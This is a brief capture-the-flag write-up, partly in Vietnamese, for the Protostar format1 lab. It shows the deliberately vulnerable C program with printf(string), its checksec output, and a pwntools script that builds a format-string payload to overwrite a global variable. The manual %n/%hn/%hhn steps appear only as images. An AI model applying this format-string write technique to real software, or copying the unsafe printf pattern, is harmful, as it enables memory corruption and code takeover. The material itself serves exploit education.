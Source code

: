 # fmt1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## checksec

```terminal
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## solution

### auto exploit 

```python
#!python3
from pwn import *
# Assume a process that reads a string
# and gives this string as the first argument
# of a printf() call
# It do this indefinitely


# Function called in order to send a payload
def send_payload(payload):
    p = process(['../protostar/format1', payload])
    log.info("payload = %s" % repr(payload))
    a = p.recvall()
    log.info("output = %s" % repr(a))
    return a

# Create a FmtStr object and give to him the function
format_string = FmtStr(execute_fmt=send_payload)
offset = format_string.offset
log.info("offset = %d" % offset)
write = {
    0x8049638: 0x40
}
#34 = size của payload tìm ra offset
payload = fmtstr_payload(offset, write)
payload = payload + b'a' * (34 - len(payload))
log.info("payload = %s" % repr(payload))
p = process(['../protostar/format1', payload])

print(p.recvall())
```

![1](1.png)

### exploit bằng cơm

tìm offset 

![5](5.png)

%n

![4](4.png)

%hn

![3](3.png)

%hhn

![2](2.png)

reference: [https://www.bluemoon.com.vn/books/taose.pdf](https://www.bluemoon.com.vn/books/taose.pdf)